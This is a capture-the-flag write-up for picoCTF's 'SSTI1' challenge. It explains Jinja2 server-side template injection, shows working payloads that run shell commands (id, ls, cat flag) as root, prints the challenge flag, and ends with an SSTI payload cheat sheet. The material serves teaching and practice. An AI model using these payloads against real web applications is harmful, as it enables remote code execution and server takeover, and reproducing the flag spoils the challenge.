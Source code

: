 # SSTI1 - Server-Side Template Injection Walkthrough

**Challenge Name:** SSTI1  
**Author:** Venax  
**Category:** Web Exploitation  


---

## 🧠 Description

> *"I made a cool website where you can announce whatever you want! Try it out!  
> I heard templating is a cool and modular way to build web apps! Check out my website here!"*

We're presented with a simple web app that allows user-submitted announcements. The twist? It's built using a server-side templating engine. Our mission is to test the app for **Server-Side Template Injection (SSTI)** vulnerabilities — and if found, exploit it to retrieve a hidden flag.

---

## 📘 What is SSTI?

**Server-Side Template Injection (SSTI)** happens when user input is unsafely incorporated into a template that the server renders. If the input is evaluated as part of the template, attackers may execute arbitrary code on the backend.

This can lead to:
- Information disclosure (e.g., config values, environment variables)
- Command execution on the server
- Full remote code execution (RCE)

### 💡 Common Template Engines Vulnerable to SSTI:
- **Jinja2** (Python - Flask)
- **Twig** (PHP - Symfony)
- **Smarty** (PHP)
- **ERB** (Ruby)
- **Velocity** (Java)

### 🔍 Detecting SSTI

Start with a basic arithmetic test:
```jinja
{{7*7}}
```
If the output returns `49`, the input is being interpreted — indicating a vulnerable template engine.

---

## 🕵️‍♂️ Recon & Initial Testing

Injected the test payload:
```jinja
{{7*7}}
```

**Output:**
```
49
```

✅ This confirms the input is evaluated. Based on the syntax, it's most likely using **Jinja2** (commonly found in Python Flask apps).

---

## 🧨 Exploitation Process

With Jinja2, we can abuse Python’s introspection capabilities to break out of the sandbox and interact with system-level features.

### ✅ Step 1: Run a System Command

```jinja
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

**Explanation:**
- `__import__('os')` brings in the OS module.
- `popen('id')` runs the `id` command in the shell.
- `read()` captures the output.

**Output:**
```
uid=0(root) gid=0(root) groups=0(root)
```

✅ Remote code execution as the **root** user.

---

### 📁 Step 2: View Files in Current Directory

```jinja
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

**Output:**
```
__pycache__  app.py  flag  requirements.txt
```

📝 Now we know the file containing the flag is named `flag`.

---

### 🏁 Step 3: Read the Flag

```jinja
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

**Flag:**
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}
```

---

## 🎓 Key Takeaways

- **SSTI is critical** — it can lead to server takeover if not properly mitigated.
- Never embed raw user input into templates without escaping or sanitization.
- Jinja2 and other engines support introspection features that attackers can leverage.
- Use proper input handling and sandboxing when working with dynamic templates.

---

## 🧰 Jinja2 Cheat Sheet for SSTI

```jinja
{{7*7}}                                 # Basic evaluation test
{{config}}                              # Access app config (may leak secrets)
{{self}}                                # Inspect current object/context
{{cycler.__init__.__globals__}}        # Get access to global variables
{{cycler.__init__.__globals__.os.popen('ls').read()}}  # Run OS commands
```
